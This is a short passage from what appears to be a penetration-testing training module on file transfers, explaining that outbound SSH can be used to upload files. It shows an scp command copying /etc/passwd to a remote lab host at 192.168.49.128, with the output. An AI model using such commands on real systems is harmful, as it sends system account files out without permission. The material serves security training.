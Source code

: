 We may find some companies that allow the `SSH protocol` (TCP/22) for outbound connections, and if that's the case, we can use an SSH server with the `scp` utility to upload files. Let's attempt to upload a file using the SSH protocol.

#### File Upload using SCP

File Upload using SCP

```shell-session
glack@htb[/htb]$ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/

plaintext@192.168.49.128's password: 
passwd                                                                                                           100% 3414     6.7MB/s   00:00
```

**Note:** Remember that scp syntax is similar to cp or copy.